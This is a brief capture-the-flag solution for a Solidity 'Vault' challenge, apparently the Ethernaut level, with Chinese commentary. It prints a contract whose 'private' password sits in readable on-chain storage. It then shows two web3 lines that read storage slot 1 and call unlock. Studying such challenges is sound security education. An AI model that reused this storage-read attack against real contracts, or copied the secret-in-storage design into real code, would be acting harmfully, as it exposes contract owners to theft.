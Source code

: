 Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```







虽然password是设置的private，但只是对其他合约而言，所有链上的数据都是可见的，所以这里使用getStorageAt就可以获取password的值，然后再调用unlock就可以黑掉这个合约

先查看contract中的地址

***const password = await*** ***web3.eth.getStorageAt("0xBcDac022FCd2450f010E67e61D0f72fc2b68052F",1)***

再unlock

***await contract.unlock(password)***